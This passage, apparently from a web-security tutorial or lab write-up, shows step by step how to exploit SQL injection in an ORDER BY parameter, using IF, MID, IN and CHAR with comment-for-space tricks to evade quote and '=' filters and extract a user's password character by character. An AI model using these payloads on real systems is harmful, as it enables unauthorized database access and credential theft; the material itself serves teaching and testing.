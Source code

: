 Here we can hardly use any keywords or functions, and the `union select`
won’t work either. To collect data from the database from an `ORDER BY`
keyword, we need to use an error-based `SQLi` or a time-based one.

So, the first injection will be for testing the vulnerability, let’s
inject a simple error-based `SQLi` where, if it is true, then it will
order the items using the id, and if it is false, it will order them
using the name:

1. `?by=if(false,id,name)`

2. `?by=if(true,id,name)`

Now, let’s add another layer. We want to get information out of this and
in order to do that we need to make some queries. In this example, we
will get the `guest` password (if you want to get the admin password,
you should try it yourself). Because the characters `=`, single and
double quotes are filtered, we need another way to get the information
of the user that we want. Here we have the `IN` operator and the `CHAR`
function. The `IN` operator allows us to specify multiple values in a
`WHERE` clause but we can use only one if we want it, and the `CHAR`
function returns the `ASCII` character based on a number. Using both
elements, a query for the guest password will be something like this:

**guest password query.**

``` text
    select passwd from users where user in(CHAR(103,117,101,115,116))
```

Here the string `guest` is the combination of `103,117,101,115,116`
`ASCII` characters. Now the `MID` function will help us to strip
characters from that query and get the password character by character.
This query will get the first character of the password:

**guest password character.**

``` text
    mid((select passwd from users where user in(CHAR(103,117,101,115,116))),1,1)
```

Next, we need to compare it against another character; here we are going
to use `IN` and `CHAR` again:

**guest password comparison.**

``` text
    mid((select passwd from users where user in(CHAR(103,117,101,115,116))),1,1) in(CHAR(49))
```

Finally, we put our query into the previous `IF` function and replace
the spaces with the block comment:

**guest password comparison.**

``` text
    ?by=if(mid((select/**/passwd/**/from/**/users/**/where/**/user/**/in(CHAR(103,117,101,115,116))),1,1)/**/in(CHAR(49)),id,name)
```
